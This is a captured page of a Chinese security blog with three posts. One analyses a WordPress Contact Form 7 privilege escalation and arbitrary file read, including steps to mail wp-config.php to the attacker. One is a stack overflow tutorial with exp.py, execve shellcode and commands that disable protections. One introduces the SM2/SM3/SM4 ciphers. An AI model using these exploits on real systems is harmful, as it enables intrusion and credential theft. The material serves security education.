


<!DOCTYPE html>
<html>
<head><meta name="generator" content="Hexo 3.8.0">
  <meta charset="utf-8">
  

  
  <title>i9n0re 博客</title>
  <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1">
  <meta property="og:type" content="website">
<meta property="og:title" content="i9n0re 博客">
<meta property="og:url" content="https://i9n0re.github.io/index.html">
<meta property="og:site_name" content="i9n0re 博客">
<meta property="og:locale" content="default">
<meta name="twitter:card" content="summary">
<meta name="twitter:title" content="i9n0re 博客">
  
    <link rel="alternate" href="/atom.xml" title="i9n0re 博客" type="application/atom+xml">
  
  
    <link rel="icon" href="/favicon.png">
  
  
    <link href="//fonts.googleapis.com/css?family=Source+Code+Pro" rel="stylesheet" type="text/css">
  
  <link rel="stylesheet" href="/css/style.css">
</head>
</html>
<body>
  <div id="container">
    <div id="wrap">
      <header id="header">
  <div id="banner"></div>
  <div id="header-outer" class="outer">
    <div id="header-title" class="inner">
      <h1 id="logo-wrap">
        <a href="/" id="logo">i9n0re 博客</a>
      </h1>
      
    </div>
    <div id="header-inner" class="inner">
      <nav id="main-nav">
        <a id="main-nav-toggle" class="nav-icon"></a>
        
          <a class="main-nav-link" href="/">Home</a>
        
          <a class="main-nav-link" href="/archives">Archives</a>
        
      </nav>
      <nav id="sub-nav">
        
          <a id="nav-rss-link" class="nav-icon" href="/atom.xml" title="RSS Feed"></a>
        
        <a id="nav-search-btn" class="nav-icon" title="Search"></a>
      </nav>
      <div id="search-form-wrap">
        <form action="//google.com/search" method="get" accept-charset="UTF-8" class="search-form"><input type="search" name="q" class="search-form-input" placeholder="Search"><button type="submit" class="search-form-submit">&#xF002;</button><input type="hidden" name="sitesearch" value="https://i9n0re.github.io"></form>
      </div>
    </div>
  </div>
</header>
      <div class="outer">
        <section id="main">
  
    <article id="post-wordpress-contact-form-7-v5-0-3-插件-权限提升、任意文件读取漏洞分析" class="article article-type-post" itemscope="" itemprop="blogPost">
  <div class="article-meta">
    <a href="/2018/12/22/wordpress-contact-form-7-v5-0-3-插件-权限提升、任意文件读取漏洞分析/" class="article-date">
  <time datetime="2018-12-22T15:09:46.000Z" itemprop="datePublished">2018-12-22</time>
</a>
    
  </div>
  <div class="article-inner">
    
    
      <header class="article-header">
        
  
    <h1 itemprop="name">
      <a class="article-title" href="/2018/12/22/wordpress-contact-form-7-v5-0-3-插件-权限提升、任意文件读取漏洞分析/">wordpress contact_form_7_v5.0.3 插件 权限提升、任意文件读取漏洞分析</a>
    </h1>
  

      </header>
    
    <div class="article-entry" itemprop="articleBody">
      
        <h1 id="简介"><a href="#简介" class="headerlink" title="简介"></a>简介</h1><p>看到了国外有大佬发了关于WordPress的一个非常有名的插件，contact form 7的漏洞，之前见到过很多WordPress站点使用这个插件，大佬写的比较笼统，一些详细的利用方式没有说的太明白.</p>
<h1 id="漏洞成因"><a href="#漏洞成因" class="headerlink" title="漏洞成因"></a>漏洞成因</h1><p>这个漏洞是由于插件开发者对WordPress的使用不当造成的，其实跟WordPress的逻辑有一定的关系，导致了可以发布普通文章的用户，可以绕过权限认证，进行发表原本插件作者只允许管理员创建和修改的自定义类型的”post”。<br>漏洞作者发现了contact from 7插件存在这样的缺陷，导致了任意一个可以发表普通文章的用户，可以新建一个contact，而且在5.0.3版本下，附件可以跨目录进行添加文件，进而可以读取网站的 <code>wp-config.php</code>。</p>
<h2 id="相关的技术点"><a href="#相关的技术点" class="headerlink" title="相关的技术点"></a>相关的技术点</h2><h3 id="nonce"><a href="#nonce" class="headerlink" title="nonce"></a>nonce</h3><p>首先我们了解下什么是nonce？nonce相当于<code>csrf token</code>是WordPress用来防御csrf问题的，并进行了相关的权限验证。</p>
<h3 id="post-type"><a href="#post-type" class="headerlink" title="post_type"></a>post_type</h3><p><code>post_type</code>是插件作者注册的自定义<code>post</code>类型，与WordPress的文章类似，插件作者要实现一个页面来进行管理文章类型。只有在后台的新建或者编辑页面当中可以获取到<code>nonce</code>随机数，提交的时候只有代入了nonce才能进行相应的操作。</p>
<h2 id="漏洞详情"><a href="#漏洞详情" class="headerlink" title="漏洞详情"></a>漏洞详情</h2><p>以contact form 7 v5.0.3为例。</p>
<h3 id="插件作者只允许WordPress的administrator才能新建和编辑contact。"><a href="#插件作者只允许WordPress的administrator才能新建和编辑contact。" class="headerlink" title="插件作者只允许WordPress的administrator才能新建和编辑contact。"></a>插件作者只允许WordPress的<code>administrator</code>才能新建和编辑contact。</h3><p><br>如果是文章的发布者，就没有修改和创建权限，会显示下面的页面。<br><br>contact form 7也是一种自定义类型的 <code>post</code> ，数据里面都是存在了<code>wp_posts</code>表当中，通过 <code>post_type</code>进行区分。</p>
<p></p>
<p>正常情况，插件作者是通过 <code>current_user_can(&#39;publish_pages&#39;)</code> 进行权限的判定，也就是说editor以上的权限可以编辑，防止普通用户打开新建和修改文章的页面。</p>
<p>但是用户仍可以操作普通的文档，通过请求接口 <code>wp-admin/post.php</code> 的方式进行新建和编辑文章，只不过 <code>post_type</code> 变为了<code>post</code>等普通文档类型。由于插件作者在 <code>register_post_type</code> 的时候没有进行相关权限的配置，仅仅依靠了<code>current_user_can(&#39;publish_pages&#39;)</code>验证用户编辑权限，出现了安全问题。</p>
<h3 id="接下来我们来看看普通文档的新建、编辑流程。"><a href="#接下来我们来看看普通文档的新建、编辑流程。" class="headerlink" title="接下来我们来看看普通文档的新建、编辑流程。"></a>接下来我们来看看普通文档的新建、编辑流程。</h3><p>正常流程上，普通文档上传接口是请求 post-new.php后先生成一个 <code>post</code>，然后再进行编辑，请求post.php，设置参数 <code>action</code> 为 <code>editpost</code>。<br><figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">// wp-admin/post.php</span></span><br><span class="line"><span class="keyword">case</span> <span class="string">'editpost'</span>:</span><br><span class="line">    check_admin_referer(<span class="string">'update-post_'</span> . $post_id);</span><br><span class="line"></span><br><span class="line">	$post_id = edit_post();</span><br><span class="line"></span><br><span class="line">	<span class="comment">// Session cookie flag that the post was saved</span></span><br><span class="line">	<span class="keyword">if</span> ( <span class="keyword">isset</span>( $_COOKIE[<span class="string">'wp-saving-post'</span>] ) &amp;&amp; $_COOKIE[<span class="string">'wp-saving-post'</span>] === $post_id . <span class="string">'-check'</span> ) &#123;</span><br><span class="line">		setcookie( <span class="string">'wp-saving-post'</span>, $post_id . <span class="string">'-saved'</span>, time() + DAY_IN_SECONDS, ADMIN_COOKIE_PATH, COOKIE_DOMAIN, is_ssl() );</span><br><span class="line">	&#125;</span><br><span class="line"></span><br><span class="line">	redirect_post($post_id); <span class="comment">// Send user on their way while we keep working</span></span><br><span class="line"></span><br><span class="line">	<span class="keyword">exit</span>();</span><br></pre></td></tr></table></figure></p>
<p>通过函数 <code>check_admin_referer</code> 检测nonce是否合法。</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">// wp-includes/pluggable.php</span></span><br><span class="line">	<span class="comment">// Nonce generated 0-12 hours ago</span></span><br><span class="line">	$expected = substr( wp_hash( $i . <span class="string">'|'</span> . $action . <span class="string">'|'</span> . $uid . <span class="string">'|'</span> . $token, <span class="string">'nonce'</span>), <span class="number">-12</span>, <span class="number">10</span> );</span><br><span class="line">	<span class="keyword">if</span> ( hash_equals( $expected, $nonce ) ) &#123;</span><br><span class="line">		<span class="keyword">return</span> <span class="number">1</span>;</span><br><span class="line">	&#125;</span><br><span class="line"></span><br><span class="line">	<span class="comment">// Nonce generated 12-24 hours ago</span></span><br><span class="line">	$expected = substr( wp_hash( ( $i - <span class="number">1</span> ) . <span class="string">'|'</span> . $action . <span class="string">'|'</span> . $uid . <span class="string">'|'</span> . $token, <span class="string">'nonce'</span> ), <span class="number">-12</span>, <span class="number">10</span> );</span><br><span class="line">	<span class="keyword">if</span> ( hash_equals( $expected, $nonce ) ) &#123;</span><br><span class="line">		<span class="keyword">return</span> <span class="number">2</span>;</span><br><span class="line">	&#125;</span><br></pre></td></tr></table></figure>
<p>漏洞利用的地方是通过传入action为<code>post</code>，调用下面这个逻辑。</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">// wp-admin/post.php</span></span><br><span class="line"><span class="keyword">case</span> <span class="string">'post'</span>:</span><br><span class="line">	check_admin_referer( <span class="string">'add-'</span> . $post_type );</span><br><span class="line">	$post_id = <span class="string">'postajaxpost'</span> == $action ? edit_post() : write_post();</span><br><span class="line">	redirect_post( $post_id );</span><br><span class="line">	<span class="keyword">exit</span>();</span><br></pre></td></tr></table></figure>
<p>其中 post_type 是通过传入的 <code>post_id</code> 去数据库里面查询得到。</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">// wp-admin/post.php</span></span><br><span class="line"><span class="keyword">if</span> ( $post_id )</span><br><span class="line">	$post = get_post( $post_id );</span><br><span class="line"></span><br><span class="line"><span class="keyword">if</span> ( $post ) &#123;</span><br><span class="line">	$post_type = $post-&gt;post_type;</span><br><span class="line">	$post_type_object = get_post_type_object( $post_type );</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<p>可以看到，如果传入的 <code>post_id</code>为正常帖子创建请求，这个地方的 <code>nonce</code> 普通用户就可以通过页面进行获取了。</p>
<h3 id="绕过nonce检测"><a href="#绕过nonce检测" class="headerlink" title="绕过nonce检测"></a>绕过nonce检测</h3><p>可以看到 <code>post_id</code> 是通过 <code>$_GET[&#39;post&#39;]</code> 或者 <code>$_POST[&#39;post_ID&#39;]</code>两种方式获取。<br><figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">// wp-admin/post.php</span></span><br><span class="line"><span class="keyword">if</span> ( <span class="keyword">isset</span>( $_GET[<span class="string">'post'</span>] ) )</span><br><span class="line"> 	$post_id = $post_ID = (int) $_GET[<span class="string">'post'</span>];</span><br><span class="line"><span class="keyword">elseif</span> ( <span class="keyword">isset</span>( $_POST[<span class="string">'post_ID'</span>] ) )</span><br><span class="line"> 	$post_id = $post_ID = (int) $_POST[<span class="string">'post_ID'</span>];</span><br><span class="line"><span class="keyword">else</span></span><br><span class="line"> 	$post_id = $post_ID = <span class="number">0</span>;</span><br></pre></td></tr></table></figure></p>
<p>所以如果我们构建一个存在的并且<code>post_type</code>为 <code>post</code> 的帖子ID作为参数传入的话， <code>check_admin_referer</code> 的参数变为了固定值 <code>add-post</code> 这样的话，如果我们拿到了nonce就可以绕过了检测。有同学会问，怎么得到这个nonce呢？通过跟代码，我发现在 dashboard 页面当中，下面这个功能里面就有我们需要的nonce，通过查看源代码，获取这个表单的input这样就绕过了检测。<br><figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="tag">&lt;<span class="name">input</span> <span class="attr">type</span>=<span class="string">"hidden"</span> <span class="attr">id</span>=<span class="string">"_wpnonce"</span> <span class="attr">name</span>=<span class="string">"_wpnonce"</span> <span class="attr">value</span>=<span class="string">"xxx"</span> /&gt;</span></span><br></pre></td></tr></table></figure></p>
<p></p>
<h3 id="创建自定义类型的post"><a href="#创建自定义类型的post" class="headerlink" title="创建自定义类型的post"></a>创建自定义类型的post</h3><p>绕过了nonce检测后，我们来看 <code>post</code> 那个case，流程会进入到 <code>write_post</code> 函数，然后我们看到这个逻辑。<br><figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">// wp-includes/post.php</span></span><br><span class="line">	<span class="keyword">if</span> ( !current_user_can( $ptype-&gt;cap-&gt;edit_posts ) ) &#123;</span><br><span class="line">		<span class="keyword">if</span> ( <span class="string">'page'</span> == $ptype-&gt;name )</span><br><span class="line">			<span class="keyword">return</span> <span class="keyword">new</span> WP_Error( <span class="string">'edit_pages'</span>, __( <span class="string">'Sorry, you are not allowed to create pages on this site.'</span> ) );</span><br><span class="line">		<span class="keyword">else</span></span><br><span class="line">			<span class="keyword">return</span> <span class="keyword">new</span> WP_Error( <span class="string">'edit_posts'</span>, __( <span class="string">'Sorry, you are not allowed to create posts or drafts on this site.'</span> ) );</span><br><span class="line">	&#125;</span><br></pre></td></tr></table></figure></p>
<p>问题就出现在这，因为作者在注册post_type的时候没有进行权限限制，导致了权限提升。<br>v5.0.3 的插件配置:<br><figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">//wp-content/plugins/contact-form-7/includes/contact-form.php</span></span><br><span class="line">	<span class="keyword">public</span> <span class="keyword">static</span> <span class="function"><span class="keyword">function</span> <span class="title">register_post_type</span><span class="params">()</span> </span>&#123;</span><br><span class="line">		register_post_type( <span class="keyword">self</span>::post_type, <span class="keyword">array</span>(</span><br><span class="line">			<span class="string">'labels'</span> =&gt; <span class="keyword">array</span>(</span><br><span class="line">				<span class="string">'name'</span> =&gt; __( <span class="string">'Contact Forms'</span>, <span class="string">'contact-form-7'</span> ),</span><br><span class="line">				<span class="string">'singular_name'</span> =&gt; __( <span class="string">'Contact Form'</span>, <span class="string">'contact-form-7'</span> ),</span><br><span class="line">			),</span><br><span class="line">			<span class="string">'rewrite'</span> =&gt; <span class="keyword">false</span>,</span><br><span class="line">			<span class="string">'query_var'</span> =&gt; <span class="keyword">false</span>,</span><br><span class="line">		) );</span><br><span class="line">	&#125;</span><br></pre></td></tr></table></figure></p>
<p>就导致了如果绕过了nonce检测，普通用户也就可以成功的创建只有editer权限才可以创建的 contact form 7了。</p>
<h3 id="进一步利用"><a href="#进一步利用" class="headerlink" title="进一步利用"></a>进一步利用</h3><p>权限提升已经完成，下面就是利用了contact from 7 v5.0.3的一个问题。<br><br>当发送邮件的时候，可以携带附件，但是这个附件可以跨目录读取，导致了用户可以直接携带 <code>wp-config.php</code> 进行发送，实现敏感信息的泄露。</p>
<h1 id="漏洞修复"><a href="#漏洞修复" class="headerlink" title="漏洞修复"></a>漏洞修复</h1><p>在注册 <code>post_type</code> 的时候，配置权限。<br><figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">//wp-content/plugins/contact-form-7/includes/contact-form.php</span></span><br><span class="line">	<span class="keyword">public</span> <span class="keyword">static</span> <span class="function"><span class="keyword">function</span> <span class="title">register_post_type</span><span class="params">()</span> </span>&#123;</span><br><span class="line">		register_post_type( <span class="keyword">self</span>::post_type, <span class="keyword">array</span>(</span><br><span class="line">			<span class="string">'labels'</span> =&gt; <span class="keyword">array</span>(</span><br><span class="line">				<span class="string">'name'</span> =&gt; __( <span class="string">'Contact Forms'</span>, <span class="string">'contact-form-7'</span> ),</span><br><span class="line">				<span class="string">'singular_name'</span> =&gt; __( <span class="string">'Contact Form'</span>, <span class="string">'contact-form-7'</span> ),</span><br><span class="line">			),</span><br><span class="line">			<span class="string">'rewrite'</span> =&gt; <span class="keyword">false</span>,</span><br><span class="line">			<span class="string">'query_var'</span> =&gt; <span class="keyword">false</span>,</span><br><span class="line">			<span class="string">'capability_type'</span> =&gt; <span class="string">'page'</span></span><br><span class="line">		) );</span><br><span class="line">	&#125;</span><br></pre></td></tr></table></figure></p>
<p>如果进行了这样的配置的话，在进行 <code>write_post</code> 这个函数逻辑的时候<br><figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">// wp-includes/post.php</span></span><br><span class="line">	<span class="keyword">if</span> ( !current_user_can( $ptype-&gt;cap-&gt;edit_posts ) ) &#123;</span><br><span class="line">		<span class="keyword">if</span> ( <span class="string">'page'</span> == $ptype-&gt;name )</span><br><span class="line">			<span class="keyword">return</span> <span class="keyword">new</span> WP_Error( <span class="string">'edit_pages'</span>, __( <span class="string">'Sorry, you are not allowed to create pages on this site.'</span> ) );</span><br><span class="line">		<span class="keyword">else</span></span><br><span class="line">			<span class="keyword">return</span> <span class="keyword">new</span> WP_Error( <span class="string">'edit_posts'</span>, __( <span class="string">'Sorry, you are not allowed to create posts or drafts on this site.'</span> ) );</span><br><span class="line">	&#125;</span><br></pre></td></tr></table></figure></p>
<p>这个判断才会生效，导致权限认证失败。</p>
<h1 id="漏洞利用"><a href="#漏洞利用" class="headerlink" title="漏洞利用"></a>漏洞利用</h1><p>理清了漏洞触发逻辑，利用方式就简单了，在后台登录页面，直接引用 <a href="">poc.js</a>。<br>注意修改几个参数</p>
<ol>
<li>修改get请求，query参数的post为已存在的帖子ID。</li>
<li>修改post参数中，_wpnonce为上文说的获取方式。</li>
<li>修改post参数中 <code>meta_input[_mail][recipient]</code> 参数为自己的收件箱。</li>
<li><code>meta_input[_mail][attachments]</code> 这个参数代表着想要获取的附件。</li>
<li>其他的标题，主题什么的参数看情况自己修改。</li>
</ol>
<p>然后可以在控制台里面引用，会发现新建了一个表单，然后在帖子里面正常引用这个表单，再页面中使用，并点击发送后，在自己的收件箱当中收到 <code>wp-config.php</code> 的附件。<br></p>
<h1 id="原文链接"><a href="#原文链接" class="headerlink" title="原文链接"></a><a href="https://blog.ripstech.com/2018/wordpress-post-type-privilege-escalation/" target="_blank" rel="noopener">原文链接</a></h1>
      
    </div>
    <footer class="article-footer">
      <a data-url="https://i9n0re.github.io/2018/12/22/wordpress-contact-form-7-v5-0-3-插件-权限提升、任意文件读取漏洞分析/" data-id="cjq1zh94k0002lqxc03f30xjl" class="article-share-link">Share</a>
      
      
    </footer>
  </div>
  
</article>


  
    <article id="post-easy-x86-exploit" class="article article-type-post" itemscope="" itemprop="blogPost">
  <div class="article-meta">
    <a href="/2018/11/06/easy-x86-exploit/" class="article-date">
  <time datetime="2018-11-06T13:33:01.000Z" itemprop="datePublished">2018-11-06</time>
</a>
    
  </div>
  <div class="article-inner">
    
    
      <header class="article-header">
        
  
    <h1 itemprop="name">
      <a class="article-title" href="/2018/11/06/easy-x86-exploit/">easy x86 exploit</a>
    </h1>
  

      </header>
    
    <div class="article-entry" itemprop="articleBody">
      
        <h1 id="x86-exploit"><a href="#x86-exploit" class="headerlink" title="x86 exploit"></a>x86 exploit</h1><h2 id="basic-vlun"><a href="#basic-vlun" class="headerlink" title="basic vlun"></a>basic vlun</h2><h3 id="最简单的栈溢出"><a href="#最简单的栈溢出" class="headerlink" title="最简单的栈溢出"></a>最简单的栈溢出</h3><h4 id="溢出"><a href="#溢出" class="headerlink" title="溢出"></a>溢出</h4><p>简单来说，就是输入的字符串长度超过了目标字符串长度限制，并且没有长度检测，导致了溢出。</p>
<h4 id="溢出类型"><a href="#溢出类型" class="headerlink" title="溢出类型"></a>溢出类型</h4><ul>
<li>栈溢出(Stack Based Buffer Overflow)</li>
<li>堆溢出(Heap Based Buffer Overflow)</li>
</ul>
<h4 id="栈溢出"><a href="#栈溢出" class="headerlink" title="栈溢出"></a>栈溢出</h4><p>漏洞代码<br><figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br></pre></td><td class="code"><pre><span class="line">//vuln.c</span><br><span class="line">#include &lt;stdio.h&gt;</span><br><span class="line">#include &lt;string.h&gt;</span><br><span class="line"></span><br><span class="line">int main(int argc, char* argv[]) &#123;</span><br><span class="line">        /* [1] */ char buf[256];</span><br><span class="line">        /* [2] */ strcpy(buf,argv[1]);</span><br><span class="line">        /* [3] */ printf(&quot;Input:%s\n&quot;,buf);</span><br><span class="line">        return 0;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure></p>
<p>编译代码<br><figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br></pre></td><td class="code"><pre><span class="line">echo 0 &gt; /proc/sys/kernel/randomize_va_space</span><br><span class="line">关闭aslr，地址空间布局随机化</span><br><span class="line"></span><br><span class="line">gcc -g -fno-stack-protector -z execstack -o vuln vuln.c</span><br><span class="line"></span><br><span class="line">-fno-stack-protector关闭堆栈保护</span><br><span class="line">-z execstack 关闭NX（DEP）数据执行保护</span><br><span class="line"></span><br><span class="line">sudo chown root vuln</span><br><span class="line">sudo chgrp root vuln</span><br><span class="line">sudo chmod +s vuln</span><br></pre></td></tr></table></figure></p>
<p>然后通过返回地址覆盖的方法进行攻击。<br>exp.py<br><figure class="highlight plain"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br></pre></td><td class="code"><pre><span class="line">#!/usr/bin/env python</span><br><span class="line">import struct</span><br><span class="line">from subprocess import call</span><br><span class="line"></span><br><span class="line">#Stack address where shellcode is copied.</span><br><span class="line">ret_addr = 0xbffff5a0</span><br><span class="line"></span><br><span class="line">#Spawn a shell</span><br><span class="line">#execve(/bin/sh)</span><br><span class="line">scode = &quot;\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80&quot;</span><br><span class="line"></span><br><span class="line">#endianess convertion</span><br><span class="line">def conv(num):</span><br><span class="line"> return struct.pack(&quot;&lt;I&quot;,num)</span><br><span class="line">buf = &quot;A&quot; * 268</span><br><span class="line">buf += conv(ret_addr)</span><br><span class="line">buf += &quot;\x90&quot; * 100</span><br><span class="line">buf += scode</span><br><span class="line"></span><br><span class="line">print &quot;Calling vulnerable program&quot;</span><br><span class="line">call([&quot;./vuln&quot;, buf])</span><br></pre></td></tr></table></figure></p>
<p>寻找返回地址，通过core文件<br>ulimit -c unlimited<br>sh -c ‘echo “/tmp/core.%t” &gt; /proc/sys/kernel/core_pattern’<br>再次触发漏洞代码，会在tmp文件夹下面产生core文件，用gdb调试这个core文件，gdb vuln </p>

      
    </div>
    <footer class="article-footer">
      <a data-url="https://i9n0re.github.io/2018/11/06/easy-x86-exploit/" data-id="cjq1zh93s0000lqxc3j6eewim" class="article-share-link">Share</a>
      
      
    </footer>
  </div>
  
</article>


  
    <article id="post-关于国密-（sm2-sm3-sm4）在Linux、python、Android、java、ios中的应用" class="article article-type-post" itemscope="" itemprop="blogPost">
  <div class="article-meta">
    <a href="/2018/11/06/关于国密-（sm2-sm3-sm4）在Linux、python、Android、java、ios中的应用/" class="article-date">
  <time datetime="2018-11-06T13:31:09.000Z" itemprop="datePublished">2018-11-06</time>
</a>
    
  </div>
  <div class="article-inner">
    
    
      <header class="article-header">
        
  
    <h1 itemprop="name">
      <a class="article-title" href="/2018/11/06/关于国密-（sm2-sm3-sm4）在Linux、python、Android、java、ios中的应用/">关于国密 （sm2,sm3,sm4）在Linux、python、Android、java、ios中的应用</a>
    </h1>
  

      </header>
    
    <div class="article-entry" itemprop="articleBody">
      
        <h1 id="关于国密开源库（GmSSL）在Linux、python、Android、java、ios中的应用"><a href="#关于国密开源库（GmSSL）在Linux、python、Android、java、ios中的应用" class="headerlink" title="关于国密开源库（GmSSL）在Linux、python、Android、java、ios中的应用"></a>关于国密开源库（GmSSL）在Linux、python、Android、java、ios中的应用</h1><h2 id="什么是国密？"><a href="#什么是国密？" class="headerlink" title="什么是国密？"></a>什么是国密？</h2><p>国密即国家密码局认定的国产密码算法。主要有SM1，SM2，SM3，SM4和最新的sm9。在国内环境主要使用的国家密码局认定的算法。</p>
<p>SM2算法：SM2椭圆曲线公钥密码算法是我国自主设计的公钥密码算法，包括SM2-1椭圆曲线数字签名算法，SM2-2椭圆曲线密钥交换协议，SM2-3椭圆曲线公钥加密算法，分别用于实现数字签名密钥协商和数据加密等功能。SM2算法与RSA算法不同的是，SM2算法是基于椭圆曲线上点群离散对数难题，相对于RSA算法，256位的SM2密码强度已经比2048位的RSA密码强度要高。</p>
<p><strong>其实就是类似RSA算法，但是大家都知道，RSA算法位数要求已经在2048以上了，SM2不同的是可以使用较少的位数保证较强的密码强度。</strong></p>
<p>SM3算法，SM3杂凑算法是我国自主设计的密码杂凑算法，适用于商用密码应用中的数字签名和验证消息认证码的生成与验证以及随机数的生成，可满足多种密码应用的安全需求。为了保证杂凑算法的安全性，其产生的杂凑值的长度不应太短，例如MD5输出128比特杂凑值，输出长度太短，影响其安全性SHA-1算法的输出长度为160比特，SM3算法的输出长度为256比特，因此SM3算法的安全性要高于MD5算法和SHA-1算法。</p>
<p><strong>与md5相似，但是比md5更长，具有更高的安全性。</strong></p>
<p>SM4算法：分组密码算法是我国自主设计的分组对称密码算法，用于实现数据的加密/解密运算，以保证数据和信息的机密性。要保证一个对称密码算法的安全性的基本条件是其具备足够的密钥长度，SM4算法与AES算法具有相同的密钥长度分组长度128比特，因此在安全性上高于3DES算法。</p>
<p><strong>与AES相似。</strong></p>
<p>SM9算法：是由国密局发布的一种IBE(Identity-Based Encryption)算法。IBE算法以用户的身份标识作为公钥，不依赖于数字证书。</p>
<p><strong>一种新型的公私钥算法，基于身份标识的。</strong></p>
<h2 id="openssl的编程初探"><a href="#openssl的编程初探" class="headerlink" title="openssl的编程初探"></a>openssl的编程初探</h2><p>在算法实现中，不免要使用openssl库来进行操作，openssl 很强大，提供了健壮的，全功能的加密套件。</p>
<p><a href="https://www.openssl.org/" target="_blank" rel="noopener">openssl官网</a></p>
